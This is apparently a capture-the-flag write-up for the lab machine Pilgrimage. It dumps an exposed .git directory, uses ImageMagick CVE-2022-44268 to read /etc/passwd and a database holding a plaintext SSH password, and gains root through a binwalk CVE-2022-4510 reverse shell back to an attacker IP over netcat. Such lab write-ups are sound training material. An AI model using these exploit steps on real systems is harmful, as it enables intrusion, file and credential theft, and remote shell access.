


# Pilgrimage

<figure><figcaption><p>Pilgrimage owned</p></figcaption></figure>

### Port Scanning

First, we perform port scanning on the machine.

```bash
sudo nmap -sV -sT -sC -oA nmap_initial 10.10.11.219
```

<figure><figcaption><p>Port scanning</p></figcaption></figure>

We found .git directory on the website.

### Exploitation

After we found .git directory, we can dump the directory to get the source code using Git Dumper.

* [https://github.com/arthaud/git-dumper](https://github.com/arthaud/git-dumper)

```bash
python3 git_dumper.py http://pilgrimage.htb/.git/ Pilgrimage
```

<figure><figcaption><p>Dumping .git directory</p></figcaption></figure>

Now, move to **Pilgrimage**.&#x20;

<figure><figcaption><p>Pilgrimage source code.</p></figcaption></figure>

On index.php, we know that the application using the magick binary to process the image.

```php
exec("/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" . $upload->getName() . $mime . " -resize 50% /var/www/pilgrimage.htb/shrunk/" . $newname . $mime);
```

<figure><figcaption><p>Review source code</p></figcaption></figure>

The "magick" binary itself is ImageMagick, open-source software suite, used for editing and manipulating digital images.

<figure><figcaption><p>ImageMagick</p></figcaption></figure>

Search on Google, i found this exploit for **ImageMagick 7.1.0-49**.&#x20;

* https://www.exploit-db.com/exploits/51261
* https://github.com/voidz0r/CVE-2022-44268

After download the exploit, run this command to generate image with payload.

```bash
cargo run "/etc/passwd"
```

<figure><figcaption><p>CVE-2022-44268</p></figcaption></figure>

Now, upload the **image.png** to the target.

<figure><figcaption><p>Upload image with embeded payload</p></figcaption></figure>

Next, download the converted image, and analyze the converted image using this command:

```bash
identify -verbose 64a0e52437392.png
```

<figure><figcaption><p>Get hex value</p></figcaption></figure>

Convert the hex to text with xxd command.

```bash
echo "hex value here" | xxd -r -p
```

<figure><figcaption><p>Convert hex to text</p></figcaption></figure>

Back to index.php again, we found that the website using sqlite database, stored at /var/db/pilgrimage. We can read the db content using above exploit.

<figure><figcaption><p>sqlite</p></figcaption></figure>

<figure><figcaption><p>Generate payload</p></figcaption></figure>

Again, upload the image to the website, and download the converted image. Next, get the hex value using xxd command.

Since the hex value is too long, you can save the command into a script.

```bash
nano db.sh
```

Inside db.sh, add this line:

```bash
#!/bin/bash
echo "hex value" | xxd -r -p
```

Then execute this command.

```bash
bash db.sh > asuka.sqlite
```

Now, we can use sqlite database client to read the database content.

```bash
➜  tmp sqlite3 asuka.sqlite 
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users (username TEXT PRIMARY KEY NOT NULL, password TEXT NOT NULL);
INSERT INTO users VALUES('emily','abigchonkyboi123');
CREATE TABLE images (url TEXT PRIMARY KEY NOT NULL, original TEXT NOT NULL, username TEXT NOT NULL);
COMMIT;
sqlite> 
```

<figure><figcaption><p>Found credentials</p></figcaption></figure>

Now, we can use the credentials to login into SSH.

### Get Low User

```bash
ssh emily@pilgrimage.htb
```

<figure><figcaption><p>Low User</p></figcaption></figure>

### Privilege Escalation

After obtaining low-level user access, we can now upload [**pspy**](../../linux/linux-post-exploitation.md#pspy) to the target machine and monitor Linux processes.

<figure><figcaption><p>Monitor UID 0 proccess</p></figcaption></figure>

We found a suspicious process with UID 0 (root) that could potentially be our pathway to gaining root access.

```bash
/bin/bash /usr/sbin/malwarescan.sh 
/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/
```

This is the content of malwarescan.sh

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done

```

In summary, this script provides a way to monitor the /var/www/pilgrimage.htb/shrunk/ directory for newly created files using **binwalk** and automatically deletes files that match specific criteria defined in the **blacklist** array.

After check the binwalk version, we know that this binwalk is vulnerable to CVE-2022-4510.

<figure><figcaption><p>Binwalk vulnerable</p></figcaption></figure>

We can use this script:

* [https://github.com/electr0sm0g/CVE-2022-4510](https://github.com/electr0sm0g/CVE-2022-4510)

Before that, nn our local machine run nc to listen at port 1337.

Upload the script to target machine, and generate the reverse shell payload.

```bash
python3 RCE_Binwalk.py asuka.png 10.10.14.7 1337
```

Next, copy the generated image to **/var/www/pilgrimage.htb/shrunk/** directory.

<figure><figcaption><p>Generate payload</p></figcaption></figure>

Using pspy, we can confirm that the binwalk execute our payload.

<figure><figcaption><p>Back connect command</p></figcaption></figure>

Checking our netcat, we received a connection from the target with the root user.

<figure><figcaption><p>Root</p></figcaption></figure>
